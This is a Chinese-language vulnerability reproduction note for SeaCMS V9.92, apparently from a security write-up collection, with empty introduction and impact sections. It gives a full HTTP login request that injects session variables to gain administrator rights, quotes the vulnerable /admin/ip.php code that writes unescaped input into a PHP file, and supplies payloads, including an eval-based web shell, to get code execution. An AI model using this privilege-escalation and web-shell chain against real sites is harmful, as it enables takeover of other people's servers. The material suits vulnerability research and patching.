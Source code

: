 ```yaml
---
title: Seacms V9.92 越权+Getshell
id: zhfly3119
---
```


# Seacms V9.92 越权+Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 越权

#### 1、首先注册一个普通用户

#### 2、burp抓包改包，下面是发送payload

```
POST /login.php HTTP/1.1
Host: 0-sec.org
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.8.143
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.8.143/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
Connection: close `dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf` 
```

#### 3、 登陆后台页面，可以发现管理员账户变成-1了,也同时拥有管理员的权限

### getshell

`/admin/ip.php`

```
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit; 
```

我们再去看一下ip.php格式

```
<?php $v = "0"; $ip = " ";  ?> 
```

我们可以构造一下,然后保存

```
*;phpinfo();// 
```

```
";@eval($_POST[pp]);// 
```

![image](../img/2207e9fd0af5e1f5434b8e812720c669.png)
